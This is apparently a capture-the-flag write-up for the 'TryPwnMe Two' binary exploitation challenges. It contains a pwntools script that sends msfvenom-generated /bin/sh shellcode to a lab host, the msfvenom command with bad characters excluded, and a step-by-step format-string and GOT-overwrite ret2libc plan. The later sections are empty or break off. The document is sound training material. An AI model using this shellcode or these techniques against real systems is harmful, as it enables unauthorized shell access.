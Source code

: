 # TryPwnMe Two

### TryExecMe 2
This first binary executes whatever shellcode we provide in input. <br />
![image](https://github.com/user-attachments/assets/a2bd5ffd-89d0-4fc9-b2ad-f1ab985c565c)<br />
The problem is that it calls a function called `forbidden` that checks if the shellcode is made of forbidden characters. If so, the binary prints "Forbidden spell detected!".<br />
So of course this simple script doesn't work:

    from pwn import *
    
    p = process("./tryexecme2")
    
    shellcode = shellcode = asm(shellcraft.sh())
    
    p.sendline(shellcode)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/48491203-eebf-4a7b-8235-cb92ce6fe4b6)<br />
That's because `shellcraft` obviously uses some forbidden characters, otherwise it would be too easy. So I think I need to use `msfvenom`. I analyzed the binary with IDA to find what are the bad characters, and at the end I generated the payload with msfvenom: `msfvenom -p linux/x64/exec CMD=/bin/sh -b '\x80\x34\x7e\x0f\x04\xcd' -f python`.<br />
The final script to exploit the remote machine is:

    from pwn import *
    
    #p = process("./tryexecme2")
    
    ip = "10.10.136.230"
    port = 5002
    
    p = remote(ip,port)
    
    buf =  b""
    buf += b"\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d"
    buf += b"\x05\xef\xff\xff\xff\x48\xbb\x1c\x2e\x8e\xb1\x27"
    buf += b"\x5c\x2f\xb9\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
    buf += b"\xff\xe2\xf4\x54\x96\xa1\xd3\x4e\x32\x00\xca\x74"
    buf += b"\x2e\x17\xe1\x73\x03\x7d\xdf\x74\x03\xed\xe5\x79"
    buf += b"\x0e\xc7\xb1\x1c\x2e\x8e\x9e\x45\x35\x41\x96\x6f"
    buf += b"\x46\x8e\xe7\x70\x08\x71\xd3\x27\x76\x81\xb4\x27"
    buf += b"\x5c\x2f\xb9"
    
    p.sendline(buf)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/16b687cf-7dfb-483b-8980-7f6e05ced814)<br />

### Not Specified 2
Checksec shows the following defense measures:<br />
![Screenshot 2025-03-25 103655](https://github.com/user-attachments/assets/193bc2cb-5209-4641-a0d1-671cac146ede)<br />
This is how IDA disassembles the binary:<br />
![image](https://github.com/user-attachments/assets/bb63c6a3-058c-4e67-9c91-652318ae4808)<br />
As you can see, the stack is 528 bytes long, but the `read` function only takes 512 bytes in input. This means that technically I can't do any buffer overflow. What I can do though is a format string exploit. <br />
How can a format string vulnerability lead to a full shell on the target system? The lack of defense mechanisms can allow it:
- Partial RELRO --> the GOT is writable during execution.
- No PIE --> the code of the binary ALWAYS starts at `0x3fe000`.
- Not Stripped --> easier to find GOT entries.
<br /><br />
The main idea of this attack is:
1) use format string to leak addresses from the stack. Inside the stack I want to find an address of a function from the libc library. Notice that I don't need to do all of this in a single execution. The stack layout is going to be the same at every execution, so I can just execute the program multiple times until I find at which offset the stack contains a libc function.
2) Once I know the offset, I can dinamically compute the base of the libc library by subtracting the known offset of the leaked function from the leaked address.
3) Since the binary is not PIE, the address of the GOT table is well known, and I can use the format string vulnerability to overwrite the entry of the `exit` function in the GOT with the address of `main`, so that I have another execution to send a second payload, while the base of the libc is still the same! you know where this is going..
4) Now I compute the addresses of `system` and and perform a ret2libc attack by overwriting the entry point of `exit` in the GOT with the address of `system`, and sending `/bin/sh` as an argument.
<br />
So let's start with the first step. After some trial end error, you'll find out that the third element of the stack contains an address from the libc:<br />
![Screenshot 2025-03-26 111122](https://github.com/user-attachments/assets/09770441-a0e4-4994-b345-701ff84aaed9)<br />
![Screenshot 2025-03-26 111252](https://github.com/user-attachments/assets/fbf8ef50-0a27-4116-80f3-e9ac0e5549c4)<br />
This means that the third address of the stack is 23 bytes away from the `write()` fucntion of the libc library. Good, so now I know how to compute the address of libc.<br />
The same payload, besides leaking the 3rd address from the stack, should also be able to overwrite the the `exit` entry point in the GOT.


### Try a Note

### Slow Server
